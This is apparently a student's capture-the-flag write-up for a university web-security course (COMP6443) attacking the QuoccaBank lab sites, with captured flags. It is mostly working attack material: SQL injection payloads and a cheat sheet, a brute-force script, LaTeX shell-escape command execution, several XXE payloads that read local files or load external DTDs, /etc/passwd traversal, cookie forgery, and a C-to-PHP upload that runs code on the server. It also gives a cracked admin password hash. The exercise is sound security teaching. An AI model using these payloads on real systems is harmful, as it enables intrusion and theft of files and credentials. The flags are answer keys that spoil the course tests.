

# Topic 3 Challenges

- [x] pay-portal.quoccabank.com (1)
- [x] support.quoccabank.com (2)
- [x] bigapp.quoccabank.com (7)
- [x] signin.quoccabank.com (1)
- [x] v1.feedifier.quoccabank.com
- [x] v2.feedifier.quoccabank.com
- [x] v3.feedifier.quoccabank.com
- [x] v4.feedifier.quoccabank.com
- [x] letters.quoccabank.com (2)
- [x] bfd.quoccabank.com (1)
- [x] gcc.quoccabank.com (1)

https://docs.google.com/document/d/13wsZDpeXLCSl7F_GGrz43iB8r430f7DLL_Nb7BJVoMs/edit

## Tools

- ifconfig, dig
- RCE curl on command injection with ur local server

### Cheat Sheet

-  `" OR "1" = "1" --`
-  `" union select 1,2,3,4,5,6,7,8 -- ` or `" union select 1,2,3,4,5,6,7,8 from dual -- `
   -  `dual` is a placeholder table - does not contain anything
   -  use this to test query
-  `" union select 1,table_name,table_schema,4,5,6,7,8 from information_schema.tables --`
   -  views all tables
- `" union select 1,table_name,column_name,4,5,6,7,8 from information_schema.columns -- `
  - selects all col and tables
- check if the SQL query uses single or double quotes and check how many columns are appended to UNION the table

### pay-portal.quoccabank.com


- `" union select 1,ID,FIRST,LAST,TITLE,PERIOD,GROSS,NET from payportal --  ` or `" or "1"="1" -- `
  - COMP6443{SQLiIsPowerful}

### bigapp.quoccabank.com

This challenge uses an "Untitled Goose Game" style objective list, whereas a flag is given to you in the response header when you achieve each of the following objectives.

- Login.

  - `' OR 1=1-- `
  - COMP6443{WHAT_IS_LOGIN.ejUzMTI3OTk=.63nx8F8Hja1QOPWzRwhnQg==}
- Make the banking product list return more than it should.

  - Get all products
    - `') OR '1'='1') UNION SELECT 1,bu,owner,code,category,pname from bproducts -- )`
    - `/api/v1/bproducts` -> check response header
    - COMP6443{INJECTION_UNION_CHALLENGE.ejUzMTI3OTk=.k0uJIAHGiGfC7cf/2OTOCQ==}
- Sort the banking products.

  - `') OR '1'='1') ORDER BY id ASC -- )`
  - COMP6443{USE_BY_ORDER.ejUzMTI3OTk=.GlrqgBw23poRygQnGyKJZw==}
- Find alternate means to login other than the obvious. Does not require any SQLi.
  - COMP6443{GET_STILL_ENABLED.ejUzMTI3OTk=.rQ2uMbuCmYiAxdnIyOT87A==}
    - https://bigapp.quoccabank.com/login.html?susername=test@gmail.com&spassword=password
      - If you consider how the login process works; you send POST request to the /login.html endpoint passing in `susername` and `spassword` and payloads of the POST body
      - Serverside, a body parser would store the parameters in the request object i.e. with Express.js the body can be found in the req.body attribute
      - As you've seen in other websites and challenges, data can also be passed through query parameters - which are the ones that appear in a URL
      - Some web services in the real world don't properly differentiate the different types of requests and so just naively parse any request data
- Become admin without logging into admin.
  - change cookie to admin
    - COMP6443{GET_BY_WITH_BYPASS.ejUzMTI3OTk=.EXs5cRBDrSw7/3Vaxxh7NA==}
    - test@gmail.com:admin
    - dGVzdEBnbWFpbC5jb206YWRtaW4=
- Login to admin using its actual password without online brute-forcing.

  - `') OR '1'='1') UNION SELECT email,password,city,state,type,mobile from users -- )`
  - admin@quoccabank.com

  - 0e7517141fb53f21ee439b355b5a1d0a -> Admin@123
  - COMP6443{LOGIN_USING_ADMIN_CREDS.ejUzMTI3OTk=.WqYFeEvFeWodSFvhtgv/fg==}
- Create duplicate user with existing user's email.

  - use repeater - payload: `fname=Gabriel&lname=Ting&email=gabriel%40gmail.com'+OR+"1"%3d"1"+--+)&mobile=000000&city=Georges+Hall&state=NSW&postcode=2198&npasswd=password&rpasswd=password`
  - COMP6443{CREATE_BY_WITH_BYPASS.ejUzMTI3OTk=.so/0fkSZ94j7jfJorZDpww==}

### support.quoccabank.com

- COMP6443{PATIENCE_IS_KEY.ejUzMTI3OTk=.WpIulgpwpQIwNPSCVll7Fg==}
  - 1125:4
  
- COMP6443{H0W_D1D_U_F1GURE_OUT_BA5358.ejUzMTI3OTk=.574iDB0jIh48emKo3OeW5A==}

  - 9447:1

- URL is encoded in base58 in the format of `<customer_id>:<ticket_id>` - brute force combinations

  ```python
  def brute_force(code, throttle=0):
      # params
      url = 'https://support.quoccabank.com/raw/'
  
      # make request
      res = requests.get(url + code, cert=(cert_path, key_path))
      time.sleep(throttle)
  
      if res.status_code == 420:
          # make the same request again
          brute_force(code, throttle + 0.1)
      else: 
          print(code, f'{i}:{j}', res.status_code)
          if res.status_code != 404 and "COMP" in res.text:
              print(res.text)
              print("=== FOUND ===")
              exit()
  
  if __name__ == '__main__':
      # flag 1 - 1125:4
      # flag 2 - 9447:1
      for i in range(9447, 10000):
          for j in range(10):
              code = base58.b58encode(f'{i}:{j}').decode()
              brute_force(code)
  ```

### letter.quoccabank.com

- Latex Injection - Looking at the source code `/source`, there could be a flag in the `/flag` route. We can use latex to inject a payload which can open the file in the PDF.

  - `\input{/flag}` - idea from https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection
  - COMP6443{IWonderWhatThatDebugOptionIsFor}

- Latex Command Injection

  - Injecting `\input{/key}` (based on looking at the source code) as the payload gives us the debug key `imagineUsingW0rd`

  - When researching more about Latex, it would seem that we can inject a payload to execute commands. Using the `-shell-escape` flag, this allows us to run external commands within Latex, meaning that we could execute bash commands as well.

    - https://0day.work/hacking-with-latex/
    - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection
    
  - We would need to inject this flag somehow. Looking at the source code on `/source`, it would seem that the debug input can be used as the flag, however we would need to sign the input first with the we found earlier.

    ```python
    s = Signer("imagineUsingW0rd")
    print(s.sign("-shell-escape").decode('utf-8'))
    
    # prints
    # -shell-escape.ZYO1d05uy-FCZuQ_fSzoDfjkipM
    ```

  - First intuition is to check the directories inside the system using this payload as the input:

    ```latex
    \input{|"echo ""; ls / | base64"}
    ```

    - NOTE: We are encoding it into base64 to avoid any Latex compilation issues

    Using this, there seems to be a file called `admin_539f98bf-9a52-4bc0-bf34-1ffaba10997c.pdf`

  - We can inject this payload now to get us the base64 contents of the file

    ```latex
    \input{|"echo ""; cat /admin_539f98bf-9a52-4bc0-bf34-1ffaba10997c.pdf | base64"}
    ```

    Using [CyberChef](gchq.github.io/CyberChef), we can decode the base64 encoding and extract the pdf to find the flag.

  - COMP6443{I_CAN_INJECT_THE_ENTIRE_WORLD}

### signin.quoccabank.com

- COMP6443{INJECT_EVERYTHING_INJECT_EVERYWHERE.ejUzMTI3OTk=.x1Y71iGhK73pQJ6T5StC7A==}

  - Link your IP address with a domain (this allows you to perform SQLi by creating TXT records)
  - It appears that the SQL in the backend is using an UPDATE query with the given TXT record (presumably using input from dnslookup). We can perform a query now using a subquery structure shown below. We are `GROUP_CONCAT` as it only expects one output.
    - `',  last_reset=CONCAT(?, (SELECT GROUP_CONCAT(table_name SEPARATOR ' ') from information_schema.tables)), reset_actor=? where email=?  -- )`
  - This query gives us all of the table names in the database. However, it would appear that there is a certain character limit that can be displayed on screen. Given this, we can reverse the order of the query using this:
    - `',  last_reset=CONCAT(?, (SELECT GROUP_CONCAT(table_name ORDER BY table_name DESC SEPARATOR ' ') from information_schema.tables)), reset_actor=? where email=?  -- )`
    - From this, it appears that there is a `users` table that we could possibly extract useful information from.
  - Now, having a table name, we can query the column names.
    - `',  last_reset=CONCAT(?, (SELECT GROUP_CONCAT(column_name) from information_schema.columns where table_name = 'users')), reset_actor=? where email=?  -- )`
    - Notable column names includes `email` and `password`

  - Used this query below to get the usernames and passwords for signin
    - `',  last_reset=CONCAT(?, (SELECT GROUP_CONCAT(email, password SEPARATOR ' ') from (SELECT * FROM users) AS usersb)), reset_actor=? where email=?  -- )`
    - We used another subquery here because MySQL doesn't allow you to reference the table that you are updating. This can however be overcome by using a query instead of the table itself in the FROM, which has the effect of copying the requested table values instead of referencing the one that you are updating. (source: https://stackoverflow.com/questions/37251621/how-to-resolve-mysql-error-you-cant-specify-target-table-x-for-update-in-from)
  - Once the query has been showed, it appears that there is an `admin@quoccabank.com` account with the password `LMAO_YOU_THERES_A_FLAG`. Logging in to that account gives us the flag.
### v1.feedifier.quoccabank.com

- COMP6443{XE.ejUzMTI3OTk=.SsMk2TZpFAmaLYxPS5Skwg==}

  - flag path is hidden in the page source comments `/flag_31339c0e290a9cb7053c408590fc3334`

    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [
     	<!ELEMENT foo ANY >
    	<!ENTITY xxe SYSTEM "file:///flag_31339c0e290a9cb7053c408590fc3334"
    >]>
    
    <rss version="2.0"
    	xmlns:content="http://purl.org/rss/1.0/modules/content/"
    	xmlns:wfw="http://wellformedweb.org/CommentAPI/"
    	xmlns:dc="http://purl.org/dc/elements/1.1/"
    	xmlns:atom="http://www.w3.org/2005/Atom"
    	xmlns:sy="http://purl.org/rss/1.0/modules/syndication/"
    	xmlns:slash="http://purl.org/rss/1.0/modules/slash/"
    >
    	<channel>
    		<description>The blogging home of QuoccaBank</description>
    		<item>
    			<title>&payload;</title>
    			<link>https://blog.quoccabank.com/?p=42</link>
    			<description><![CDATA[Scott&#8217;s favourite animal are the sharks.]]></description>
    		</item>
    	</channel>
    </rss>
    ```

### v2.feedifier.quoccabank.com

- COMP6443{XXE.ejUzMTI3OTk=.V5cIucOcaHyM/9GbUVx9TA==}

  - https://lab.wallarm.com/xxe-that-can-bypass-waf-protection-98f679452ce0/

    

  ```
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [ <!ELEMENT foo ANY >
  <!ENTITY % xxe SYSTEM "http://cgi.cse.unsw.edu.au/~z5312799/v2.html">%xxe;]>
  <rss version="2.0"
  	xmlns:content="http://purl.org/rss/1.0/modules/content/"
  	xmlns:wfw="http://wellformedweb.org/CommentAPI/"
  	xmlns:dc="http://purl.org/dc/elements/1.1/"
  	xmlns:atom="http://www.w3.org/2005/Atom"
  	xmlns:sy="http://purl.org/rss/1.0/modules/syndication/"
  	xmlns:slash="http://purl.org/rss/1.0/modules/slash/"
  	>
  <channel>
  	<description>The blogging home of QuoccaBank</description>
  	<item>
  		<title>&payload;</title>
  		<link>https://blog.quoccabank.com/?p=42</link>
  		<description><![CDATA[Scott&#8217;s favourite animal are the sharks.]]></description>
  	</item>
  	</channel>
  </rss>
  ```

  ```xml
  <!ENTITY % start "<![CDATA[">
  <!ENTITY % stuff SYSTEM "file:///flag_733834329685b98d0b047e7dc0a752ef">
  <!ENTITY % end "]]>">
  <!ENTITY payload "%start;%stuff;%end;">
  ```

### v3.feedifier.quoccabank.com

- COMP6443{XXXE.ejUzMTI3OTk=.CULdWS1r6J3NM6Qxq4aRjQ==}

  - https://github.com/Angus-C-git/SecSheets/blob/master/Web/Injection/XXE/XXE.md

    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
    <!ENTITY % xxe SYSTEM "http://cgi.cse.unsw.edu.au/~z5312799/v3.html">%xxe;]>
    <rss version="2.0">
    <channel>
    	<description>The blogging home of QuoccaBank</description>
    	<item>
    		<title>&payload;</title>
    		<link>https://blog.quoccabank.com/?p=42</link>
    		<description><![CDATA[&xxe;]]></description>
    	</item>
    	</channel>
    </rss>
    ```

    ```xml-dtd
    <!ENTITY % p1 "file">
    <!ENTITY % p2 ":///fl">
    <!ENTITY % p3 "ag_17cc6c717afdef0b7581ec95c47313d3">
    
    <!ENTITY % combined "<!ENTITY payload SYSTEM '%p1;%p2;%p3;'>">
    %combined;
    ```

### v4.feedifier.quoccabank.com

- COMP6443{XXXXE.ejUzMTI3OTk=.RYCCKT54VjrGu21zmnH/6Q==}

  - It appears that you cannot load external DTD. Find internal DTD through the docbook and modify the file to contain the entity to access the flag file. More info: https://portswigger.net/web-security/xxe/blind (Exploiting blind XXE by repurposing a local DTD)

    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/sgml/docbook/dtd/4.5/docbookx.dtd">
    <!ENTITY % custom_entity '
      <!ENTITY &#x25; file SYSTEM "file:///flag_502d2f26a8f23e2df4e7eb8f3d085de3">
      <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
      &#x25;eval;
      &#x25;error;
      '>
      %custom_entity;
    ]>
    
    <rss>
    	<channel>
    		<description>The blogging home of QuoccaBank</description>
    		<item>
    			<title>&custom_entity;</title>
    			<link>https://blog.quoccabank.com/?p=42</link>
    			<description><![CDATA[Scott&#8217;s favourite animal are the sharks.]]></description>
    		</item>
    	</channel>
    </rss>
    ```

### bfd.quoccabank.com

- COMP6443{BRAAAAAINS}
  - https://github.com/ajyoon/systemf/blob/master/examples/http/server.bf
  - Use burp to GET /../etc/passwd in the request

### gcc.quoccabank.com

- Recon
  
  - visiting `/upload.php` reveals the file path on where that PHP file is located inside the server `/quocca-gcc/upload.php`
  - When we #include a C file, it can reveal the contents of that file. i.e. `#include "/etc/passwd"`
  - When compiling a C file, it creates a file name without the C extension
  
- Including the upload PHP file `#include "/quocca-gcc/upload.php"`, it seems that the binaries compiled by gcc is stored in the `af381d14-a9b1-45b2-b753-d68dc37eac2b/compiled-assets/` directory. It appears that we can access files in that directory i.e. `gcc.quoccabank.com/af381d14-a9b1-45b2-b753-d68dc37eac2b/compiled-assets/<binary_file>`

  

- Upload a file named `<filename>.php.c` as when creating that binary file, it strips out the C extension, so it can be recognised as a PHP file to execute on the server instead.

- For example, creating a file named `hello.php.c` with a normal C program, we can load the binary ELF using the URL `gcc.quoccabank.com/af381d14-a9b1-45b2-b753-d68dc37eac2b/compiled-assets/<binary_filename>`

- We can print PHP code in the C file so that the backend server can execute it when loading the ELF file. Using the payload below, it prints the base64 of the source code of the `flag.php` file (found that it exists by checking robots.txt)

  ```c
  #include <stdio.h>
  #include <stdlib.h>
  
  int main() {
  	printf("=== START ===");
  	printf("<?php require('php://filter/convert.base64-encode/resource=/quocca-gcc/flag.php'); ?>");
  	printf("=== END===");
  }
  ```

  - The output of the file once decoded is:

    ```php
    <?php
    // hard-coding secret is dangerous
    // I removed the hard-coded flag and moved it to environment variable
    ```

- PHP has a feature that we can extract environmental variables used through this payload

  ```c
  #include <stdio.h>
  #include <stdlib.h>
  
  int main() {
  	printf("=== START ===");
  	printf("<?php phpinfo(); ?>");
  	printf("=== END===");
  }
  ```

  - By checking the environment variables, we get the flag that way.
  - COMP6443{OMG_I_THOUGHT_THIS_WAS_6447_BUT_IT_IS_6443}

